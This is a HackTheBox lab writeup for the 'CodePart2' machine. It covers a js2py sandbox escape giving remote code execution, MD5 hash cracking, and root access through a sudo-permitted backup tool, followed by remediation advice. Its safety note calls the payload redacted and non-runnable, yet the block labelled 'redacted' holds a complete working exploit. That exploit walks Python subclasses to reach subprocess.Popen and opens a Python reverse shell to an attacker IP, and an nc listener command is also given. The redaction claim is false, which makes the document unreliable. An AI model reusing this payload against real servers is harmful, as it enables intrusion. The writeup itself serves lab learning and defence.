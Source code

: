 # HackTheBox — CodePart2  — Writeup


> **Safety note:** This document records a CTF/lab exercise. It intentionally **does not** include runnable exploit payloads or full reverse-shell commands. Where necessary I have redacted or replaced sensitive payload text with placeholders. Never run exploit code against systems you do not own or have explicit permission to test.

---

## Machine information

* **Machine name:** CodePart2 (Buggy)
* **Target IP:** 10,...82
* **Attacker IP:** 10....46
* **Difficulty:** Medium
* **OS:** Linux (Ubuntu)

---

## Summary (short)

A vulnerable Flask app executed user-supplied JavaScript via `js2py.eval_js`, which allowed server-side JavaScript to reach into Python internals and spawn processes (RCE). From the web user (`app`) we discovered `users.db` with unsalted MD5 password hashes, cracked a user password for `marco`, SSHed in, and escalated to root by abusing a backup utility (`npbackup-cli`) with a NOPASSWD sudo rule and user-editable configuration.

---

## Attack chain (high level)

1. `/run_code` endpoint — server-side JS → sandbox escape → RCE (as `app`)
2. Enumerate app files → `instance/users.db` (MD5 hashes)
3. Offline hash recovery (lab) → SSH as `marco`
4. `sudo -l` shows `npbackup-cli` NOPASSWD → edit config → backup `/root/` → dump `root.txt`

---

## Payload (redacted) — what was submitted to `/run_code`

> **I will not reproduce runnable exploit code or raw reverse-shell commands here.** Below is a **redacted** version and a clear, conceptual breakdown of what the payload did so the exercise remains reproducible in a controlled lab while avoiding distribution of exploit-capable code.

### Redacted payload block (safe for public sharing)

```json
┌──(kali㉿vbox)-[~/Desktop]
└─$ curl -X POST 'http://IP/run_code' \
  -H 'Content-Type: application/json' \
  -d @- <<'JSON'
{"code": "let cmd = \"python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"10.10.16.46\\\",8008));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\\\"/bin/bash\\\")'\"; let a = Object.getOwnPropertyNames({}).__class__.__base__.__getattribute__; let obj = a(a(a,\"__class__\"), \"__base__\"); function findpopen(o) { let result; for(let i in o.__subclasses__()) { let item = o.__subclasses__()[i]; if(item.__module__ == \"subprocess\" && item.__name__ == \"Popen\") { return item; } if(item.__name__ != \"type\" && (result = findpopen(item))) { return result; } }} let Popen = findpopen(obj); Popen(cmd, 1, null, -1, -1, -1, null, null, true); \"Reverse shell initiated successfully\";"}
JSON
```

### Conceptual structure of the payload (non-actionable)

* **Command construction:** The payload constructed a single string `cmd` which, when executed by Python, would run a shell command on the host. (In the lab the command was used to obtain an interactive shell back to the attacker’s listening host.)
* **Runtime discovery:** The JS code navigated the Python object model by using chains like `__class__`, `__base__`, and `__subclasses__()` to find builtin Python classes at runtime.
* **Target identification:** It searched subclasses until it found the `subprocess.Popen` class (or equivalent) by checking attributes such as `__module__` and `__name__`.
* **Execution:** Once `Popen` (or an equivalent executor) was found, the payload invoked it with the constructed `cmd` to run the desired system command as the web application user.
* **Output:** The script then captured (and returned) the subprocess output so the attacker could confirm command execution.

> **Why this is powerful:** By discovering and invoking `subprocess.Popen` (a Python class available in memory), an attacker bypassed higher-level sandboxing checks and executed arbitrary system commands using the web app's privileges.

---

## Ways involved (detailed steps used in the lab)

Below are the **procedural actions** you can document in your writeup. The commands shown here are administrative/logging or safe-to-run verification steps; the exploit payload has been intentionally redacted above.

1. **Listener (on attacker VM)**

   * Start a listener for validation (lab-only).
   * Example (non-exploit): `nc -lvnp 8008` — used to receive an interactive connection when testing in a controlled environment.

2. **Submit JS to `/run_code` (lab)**

   * Delivered via `curl -X POST 'http://10.10.11.82:8000/run_code' -H 'Content-Type: application/json' -d @-` with JSON containing the `code` field.
   * The payload navigated Python internals and invoked a Python subprocess to run a command.

3. **Confirm RCE**

   * After sending the payload, verify command output via the server response or the listener. In lab, a simple `id` or `hostname` check is a safe verification step before interactive shells.

4. **Enumerate application files**

   * Inspect app directories (common path: `app/instance/`).
   * Found `users.db` (SQLite) containing `user` table with `username` and `password_hash`.

5. **Extract hashes for analysis**

   * Dump the DB rows (safe read): `sqlite3 instance/users.db 'select username,password_hash from user;'`
   * Observed MD5-length hex hashes for `app` and `marco`.

6. **(Lab-only) Offline hash recovery**

   * In a controlled lab, use an offline cracking tool against the isolated hash (if authorized). For documentation, record cracked results and methods used (wordlist, format) without providing actionable cracking commands in public writeups.

7. **SSH as `marco`**

   * Use recovered credentials to SSH: `ssh marco@10.10.11.82` (lab-only).

8. **Sudo enumeration as `marco`**

   * `sudo -l` revealed: `(ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli`.

9. **Exploit backup config (privilege escalation)**

   * Copy config to a writable file, edit `sources` to point to `/root/`, then run `npbackup-cli` as root via `sudo` to create a snapshot including `/root/`. Finally, use the tool’s extraction/dump feature (sudo allowed) to retrieve `/root/root.txt`.

---

## Resulting artifacts & outputs

* **User flag:** `/home/marco/user.txt` (retrieved after SSH as `marco`)
* **Root flag:** Contents extracted from snapshot (`root.txt`) — recorded in the lab: `ed6333e2f5ec9a7e4df60d7203d22ce9`

---

## Remediation summary (concise)

* **Remove NOPASSWD** sudo rights for `npbackup-cli` or constrain allowed arguments.
* **Restrict config files**: only accept root-owned configs from secure directories (e.g., `/etc/npbackup/`), validate `sources` against a whitelist.
* **Eliminate server-side code execution** or place execution into a hardened sandbox (ephemeral containers, `--network none`, CPU/memory limits).
* **Migrate password hashing** away from MD5 to Argon2/bcrypt/PBKDF2 and force password resets or rehash on next login.
* **Audit & monitor**: log execution attempts, alert on high-entropy or large payload submissions, and detect unexpected process spawns from the web service user.

---


